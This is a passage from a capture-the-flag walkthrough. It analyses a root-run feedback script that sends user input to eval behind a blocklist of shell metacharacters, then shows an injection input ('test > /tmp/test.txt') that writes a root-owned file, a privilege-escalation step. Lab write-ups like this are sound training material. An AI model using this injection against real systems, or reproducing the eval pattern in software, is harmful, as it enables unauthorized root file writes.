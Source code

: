 After that, it asks for our feedback and reads our input to the `feedback` parameter.

```bash
echo "Enter your feedback:"
read feedback
```

Then it checks if our inputs include any one of the `` ` ``, `)`, `$(`, `|`, `&`, `;`, `?`, `!`, `\` characters.

```bash
if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
```
{: .wrap }

If it does, it prints the invalid input message and exits.

```bash
else
    echo "Invalid input. Please provide a valid input."
fi
```

And if it does not, it passes our input to the `eval "echo $feedback"` command and also logs it to the `/var/log/feedback.txt` file.

```bash
echo "It is This:"
eval "echo $feedback"

echo "$feedback" >> /var/log/feedback.txt
echo "Feedback successfully saved."
```

Luckily, neither `>` nor `/` are one of the restricted characters; we can use this to write to any file we want as the `root` user like this:

```console
deku@myheroacademia:~$ sudo /opt/NewComponent/feedback.sh
Hello, Welcome to the Report Form
This is a way to report various problems
    Developed by
        The Technical Department of U.A.
Enter your feedback:
test > /tmp/test.txt
It is This:
Feedback successfully saved.
deku@myheroacademia:~$ cat /tmp/test.txt
test
deku@myheroacademia:~$ ls -la /tmp/test.txt
-rw-r--r-- 1 root root 5 Aug 24 09:54 /tmp/test.txt
```

With our input as `test > /tmp/test.txt`, the command passed to the eval becomes: `eval "echo test > /tmp/test.txt"` and we are able to write to the `/tmp/test.txt` file.
